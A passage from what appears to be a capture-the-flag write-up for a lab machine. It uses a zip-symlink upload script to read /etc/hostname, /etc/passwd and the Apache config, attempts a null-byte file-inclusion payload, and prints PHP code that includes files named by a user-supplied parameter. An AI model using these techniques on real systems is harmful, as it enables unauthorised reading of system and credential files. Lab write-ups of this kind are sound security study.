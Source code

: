 
```bash
> python zipSymlink.py /etc/hostname
[+] Symlink created.
  adding: symlink.pdf (stored 0%)
[+] File successfully zipped.
View file @ http://10.129.66.225//uploads/05101da7a883e7887506fca8c88787ca/symlink.pdf
File content:
zipping
```

I was able to Identify a user named `rektsu` based on the information retrieved from the `/etc/passwd` file.

```bash
> python zipSymlink.py /etc/passwd | grep sh$
root:x:0:0:root:/root:/bin/bash
rektsu:x:1001:1001::/home/rektsu:/bin/bash
```

As per the Apache configuration file, the root directory for the website is located at `/var/www/html`.

```bash
> python zipSymlink.py /etc/apache2/sites-available/000-default.conf
...snip...
...snip...
    ServerAdmin webmaster@localhost
    DocumentRoot /var/www/html

    <Directory /var/www/html/uploads>
        Options -Indexes
    </Directory>
...snip...
```

By using the document root, I accessed the source code of the page at `shop/index.php` (`/var/www/html/shop/index.php`). The code includes PHP files, with the limitation that it appends a `.php` to the value of the page parameter, allowing only the inclusion of PHP files. Despite not knowing the PHP version, my initial attempt to use a null byte (`index.php?page=/etc/hostname%00`) proved unsuccessful, indicating a PHP version likely greater than 8.

_shop/index.php_

```php
<?php
session_start();
// Include functions and connect to the database using PDO MySQL
include 'functions.php';
$pdo = pdo_connect_mysql();
// Page is set to home (home.php) by default, so when the visitor visits, that will be the page they see.
$page = isset($_GET['page']) && file_exists($_GET['page'] . '.php') ? $_GET['page'] : 'home';
// Include and show the requested page
include $page . '.php';
?>
```
